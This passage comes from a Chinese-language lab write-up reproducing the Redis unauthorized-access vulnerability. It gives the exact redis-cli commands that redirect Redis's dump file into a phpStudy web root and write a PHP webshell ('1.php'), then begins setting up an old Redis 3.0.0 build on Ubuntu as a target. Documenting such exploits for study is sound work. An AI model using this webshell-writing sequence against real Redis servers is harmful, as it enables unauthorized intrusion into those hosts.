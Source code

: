**SET**：设置键值对，将用户提供的值与指定的键绑定，保存到 Redis 数据库中

语法：`SET <key> <value>`

```bash
set shell "<?php phpinfo();?>"
```

**SAVE**：将当前内存中的数据保存到指定的文件中

```bash
save
```

前面**phpinfo**获取web路径`c:/phpstudy/phpstudy_pro/WWW/`，开搞

后面的端口参数可以省略的如果是默认的6379

```bash
./redis-cli.exe -h 192.168.237.136 -p 6379
config set dir "c:/phpstudy/phpstudy_pro/WWW/"
config set dbfilename "1.php"
set shell "<?php phpinfo();?>"
save
```

成功写入webshell，有点脏数据，不影响

![6](https://the0n3.top/medias/redis未授权访问控制漏洞/6.png)

## linux环境复现准备

上面说了，新版本redis需要手动更改配置复现该漏洞，可以选老版本自己编译

redis发布版下载地址：https://download.redis.io/releases/

靶机环境准备：

- os：ubuntu 22.04 server
- redis 3.0.0


编译环境
```bash
sudo apt update
sudo apt install build-essential tcl
```

下载源码
```bash
wget http://download.redis.io/releases/redis-3.0.0.tar.gz
tar xzf redis-3.0.0.tar.gz
cd redis-3.0.0
```

编译，编译过程报错不要怕，是warning(x)
```bash
make
```
